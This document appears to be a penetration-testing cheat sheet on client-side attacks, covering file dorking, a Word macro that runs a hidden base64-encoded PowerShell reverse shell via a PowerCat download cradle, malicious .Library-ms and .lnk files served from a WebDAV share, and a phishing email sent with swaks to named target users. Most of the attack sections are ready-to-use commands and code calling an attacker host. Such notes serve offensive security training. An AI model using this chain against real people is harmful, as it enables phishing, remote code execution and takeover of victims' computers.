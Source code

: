 # Client-side attacks

## Dorking

Passive: 
- browser: `site:www.site-to-hack.com filetype:pdf`
- cli: `kali$ firefox --search "Microsoft Edge site:exploit-db.com`, `inurl:`, `intext:`, `intitle:`
Gobuster: 
- `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/common.txt`
- `gobuster dir -x .pdf, .txt -u $TargetIp -w /usr/share/wordlist/dirb/big.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  '-----
  'CreateObject("Wscript.Shell").Run "powershell"
  '-----
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc "
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run Str
End Sub
```
and start an http server:
```
kali$ python3 -m http.server 80
```

### Library files

#### Webdav shares

Install and run a Webdav share:
```
kali$ sudo apt-get install python3-wsgidav
kali$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/share/
```

#### Extension `.Library-ms`

Make a `myautomatedfakeinstalltofoolsomeuser.Library-ms` file pointing to the Webdav share on Kali, send it by mail and tell the user to click it. \
In the Webdav share, prepare a reverse shell. For example with [PowerCat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) in a `.lnk` file:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://myip:myhttpport/powercat.ps1');powercat -c myip -p myncport -e powershell"
```
Instead of sending the Library file by email, it can be shared by Samba:
```
smbclient //$TargetIp/$TargetSharedDirectory -c 'put myautomatedfakeinstalltofoolsomeuser.Library-ms'
```

## Phishing email

Body:
```
Hello John,
In attachment, you'll find a link to the installation script with new security features. Double-click on it and execute the configuration.
Best
Bob
```

Lnk file in attachment: to build with a Windows workstation

Swaks command:
```
kali$ sudo swaks -t user1_to_hack@some-org.com -t user2_to_hack@some-org.com --from bob@some-org.com --attach @config.Library-ms --server $IpSmtpServer --body @body.txt --header "Subject: Installation script" --suppress-data -ap
```
and identify with bob's login and password to the SMTP server


